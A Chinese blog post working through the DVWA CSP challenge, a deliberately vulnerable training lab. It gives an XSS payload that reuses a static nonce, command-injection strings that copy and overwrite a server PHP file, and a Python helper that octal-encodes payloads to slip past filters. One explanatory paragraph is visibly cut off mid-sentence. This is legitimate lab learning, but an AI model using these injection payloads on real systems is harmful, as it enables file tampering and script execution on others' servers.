






## 前言

终于，DVWA快要打通关了。OWASP 2021 的 Top 10 里已经看不到 CSP 了。可能是合并到了 Injection 里，XSS也合并到 Injection 里了。一个 Injection 总结各种注入还是挺精辟的。

直接开干吧。

## 原理

CSP 是 *Content Security Policy* ，一种降低 XSS 攻击面的技术。简单概括下就是一种同源策略的扩展，用以约束 `<script src="..."`、`alert(1)</script>`，发现出错：

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='". Note that 'unsafe-inline' is ignored if either a hash or nonce value is present in the source list.
```

提示CSP禁止了inline脚本，但后面备注`unsafe-inline`会在源列表里有`hash`和`nonce`的情况下忽略。

### Medium：解题

尝试在 payload 上加上 `nonce`：`<script nonce>alert(1)</script>`，错误不变。

加上 `src`，随便选一个真实存在的 js：`<script src="/dvwa/js/dvwaPage.js" nonce>alert(1)</script>`，错误消失。但脚本没有执行。无奈看了下帮助，提示注意 CSP 的 `nonce` 策略。于是翻了下请求历史，发现 `nonce` 不变。

于是修改 payload，`nonce` 设置为固定值：`<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>`



需要注意的是 `nonce-` 这个前缀不用放到 `script` 标签的 `nonce` 里。

### High：收集信息



点击`Solve the sum`后：



提示是修改指定的页面来运行自己的代码，怪。这要怎么做？没思路了，看一眼帮助，并没有帮助。

这一次的 `Content-Security-Policy`是`script-src 'self'`，点击`Solve the sum`产生请求`jsonp.php?callback=solveSum`。返回结果是一个 js 脚本。审阅代码没有包含 `jsonp.php` 的内容。

好吧。先试试请求 `jsonp.php`，改一下`callback`参数，请求`http://localhost:8080/vulnerabilities/csp/source/jsonp.php?alert`。结果返回一个空页面，没有js。所以提示还是对的，只能改`jsonp.php`文件完成High难度。

改法可以很简单=。=我们先拿命令注入提取出`jsonp.php`文件，方便下载。

```
n|cp /var/www/html/vulnerabilities/csp/source/jsonp.php /var/www/html/jsonp.txt
```

然后访问`/jsonp.txt`拿到内容：

```php
<?php
header("Content-Type: application/json; charset=UTF-8");

if (array_key_exists ("callback", $_GET)) {
	$callback = $_GET['callback'];
} else {
	return "";
}

$outp = array ("answer" => "15");

echo $callback . "(".json_encode($outp).")";
?>
```

emm，没什么特别的，接着看下前端怎么处理 `jsonp.php` 返回的内容。

```js
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}

function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}

var solve_button = document.getElementById ("solve");

if (solve_button) {
    solve_button.addEventListener("click", function() {
        clickButton();
    });
}
```

重点来了：

```js
var s = document.createElement("script");
s.src = "source/jsonp.php?callback=solveSum";
document.body.appendChild(s);
```

直接把 `jsonp.php` 返回的内容当成了 `script` 标签的内容，也就是在 `jsonp.php` 返回随便什么东西前端都会执行。

那下一步就容易了，利用命令注入漏洞注入一个新的 php 标签，并输出 `alert`。先写一个脚本把脚本编码成`printf` 接受的8进制转义。

```python
encoded = ''
payload = '<?php echo \'alert(1)\'; ?>'
for c in payload:
    if c in '()&|-$`;\'':
    	encoded += '\\0{:o}'.format(ord(c))
    else:
        encoded += c
```

得到结果之后，变形一下payload：`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/jsonp.txt`。执行后检查：



再真正注入到 `jsonp.php` 里。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/vulnerabilities/csp/source/jsonp.php`，返回后发现有语法错误。



是我大意了=。=算了，直接覆盖掉 `jsonp.php` 完事。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>/var/www/html/vulnerabilities/csp/source/jsonp.php`



成功。

## 总结

一定要总结的话就是确实有黑客思维这回事。题目并不是真的在考一个固定知识点，虽然是在CSP题，但真正的关键工作是在命令注入完成的，只是观察CSP这个页面的话是什么也干不成的，即使没有 CSP 干瞪着这个页面也干不成，就算有创建`script`标签设置内容的`js`也利用不到。

但抱怨还是有抱怨的。因为我通关DVWA的目的是学习=。=CSP的 High 难度选择用命令注入当突破口，对了解 CSP 本身就没啥用了，命令注入本身可以干的事情就远不止弄死一个 CSP 这么点=。=

总之，也行吧。多少对 CSP 有点了解了。


